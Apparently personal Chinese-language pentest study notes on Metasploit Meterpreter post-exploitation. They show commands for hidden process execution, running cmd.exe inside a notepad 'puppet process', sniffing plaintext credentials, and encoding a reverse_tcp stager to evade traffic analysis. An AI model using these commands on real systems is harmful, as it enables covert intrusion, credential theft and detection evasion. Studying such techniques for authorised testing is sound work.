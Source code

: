

```
execute -f <cmd>  			  # 执行一个可执行的米宁
execute -f notepad  		  # 执行notepad程序
execute -f notepad -a a.txt   # 使用notpad打开a.txt文本文件，
execute -f notepad -a a.txt -H  # 隐蔽执行
		-f -i				  # 创建一个交互式的进程，如: -i -f cmd

## 傀儡进程：
一个程序想要运行，就必须要加载到内存当中，这时该程序的进程会在内存当中开辟出一份内存空间，这里的进程就可以理解为是一个外壳。在这个内存空间里面在执行这个程序的线程，也就是真正要运行的代码。所以有些时候可能就会在一个notepad程序的进程（外层）中运行我们指定的恶意代码而不是原本notepad程序自己的代码，这是这个notepad进程就被称为“傀儡进程”。

# 在notepad程序外壳当中运行cmd程序
execute -f /root/cmd.exe -m -d notepad
		-i -H 隐藏远程view，在本地进行交互
```





### 流量劫持

这里使用msf中的sniffer进行完成。

![image-20230311145051832](./流氓&病毒.assets/image-20230311145051832.png)

```
use sniffer


Sniffer Commands
================

Command     	Description
-------     	-----------
sniffer_dump		Retrieve captured packet data to PCAP file
sniffer_interfaces	Enumerate all sniffable network interfaces
sniffer_release		Free captured packets on a specific interface instead of 					 downloading them   
sniffer_start		Start packet capture on a specific interface
sniffer_stats		View statistics of an active capture
sniffer_stop		Stop packet capture on a specific interface

```

通过sniffer可以抓取http、ftp等明文的数据包中敏感的信息，但是比如像https这种加密的数据这种就需要另外的模块了，这里可以使用NetRipper进行测试。



### 流量分析

给stage加密，这里使用的payload为：windows/x64/meterpreter/reverse_tcp

```
show advanced  # 查看高级指令

msf6 exploit(multi/handler) > set StageEncoder x64/xor_dynamic  # 设置编码
set EnableStageEncoding true  # 启用设置的编码
```
